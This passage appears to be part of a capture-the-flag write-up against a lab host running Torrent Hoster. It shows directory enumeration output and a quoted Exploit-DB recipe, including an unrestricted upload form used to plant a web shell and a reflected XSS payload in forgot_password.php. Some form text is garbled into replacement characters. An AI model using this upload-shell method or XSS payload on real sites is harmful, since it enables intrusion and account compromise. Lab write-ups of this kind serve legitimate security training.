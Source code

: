 ```bash
/edit                 (Status: 200) [Size: 0]                                             
/edit.php             (Status: 200) [Size: 0]                                             
/lib                  (Status: 301) [Size: 314] [--> http://10.10.10.6/torrent/lib/]      
/database             (Status: 301) [Size: 319] [--> http://10.10.10.6/torrent/database/] 
/secure               (Status: 200) [Size: 4]                                             
/secure.php           (Status: 200) [Size: 4]                                             
/js                   (Status: 301) [Size: 313] [--> http://10.10.10.6/torrent/js/]       
/logout               (Status: 200) [Size: 182]                                           
/logout.php           (Status: 200) [Size: 182]                                           
/preview              (Status: 200) [Size: 28104]                                         
/config               (Status: 200) [Size: 0]                                             
/config.php           (Status: 200) [Size: 0]                                             
/readme               (Status: 301) [Size: 317] [--> http://10.10.10.6/torrent/readme/]   
/thumbnail.php        (Status: 200) [Size: 1789]                                          
/thumbnail            (Status: 200) [Size: 1789]                                          
/validator            (Status: 200) [Size: 0]                                             
/validator.php        (Status: 200) [Size: 0]                                             
/hide                 (Status: 200) [Size: 3765]                                          
/PNG                  (Status: 301) [Size: 314] [--> http://10.10.10.6/torrent/PNG/] 
```

## EXPLOIT 

On doing a quick google search I found this [exploit](https://www.exploit-db.com/exploits/11746). 

```bash
======================      Exploit By El-Kahina       =================================
 # Exploit  : 
 
 1 - use tamper data :
 
 http://127.0.0.1/torrenthoster//torrents.php?mode=upload
 
 2- 
    <center>
   Powered by Torrent Hoster
        <br />
        <form enctype="multipart/form-data" action="http://127.0.0.1/torrenthoster/upload.php" id="form" method="post" onsubmit="a=document.getElementById('form').style;a.display='none';b=document.getElementById('part2').style;b.display='inline';" style="display: inline;">
        <strong>&#65533;&#65533;&#65533;&#65533; &#65533;&#65533;&#65533; &#65533;&#65533;&#65533;&#65533;&#65533; &#65533;&#65533; &#65533;&#65533;:</strong> <?php echo $maxfilesize; ?>&#65533;&#65533;&#65533;&#65533;&#65533;&#65533;&#65533;&#65533;<br />
<br>
        <input type="file" name="upfile" size="50" /><br />
<input type="submit" value="&#65533;&#65533;&#65533; &#65533;&#65533;&#65533;&#65533;&#65533;" id="upload" />
        </form>
        <div id="part2" style="display: none;">&#65533;&#65533;&#65533; &#65533;&#65533;&#65533; &#65533;&#65533;&#65533;&#65533;&#65533; .. &#65533;&#65533; &#65533;&#65533;&#65533;&#65533; &#65533;&#65533;&#65533;&#65533;&#65533;</div>
        </center>
        
3 - http://127.0.0.1/torrenthoster/torrents/  (to find shell)      
        
4 - Xss:

http://127.0.0.1/torrenthoster/users/forgot_password.php/>"><ScRiPt>alert(00213771818860)</ScRiPt>
       
==========================================
```
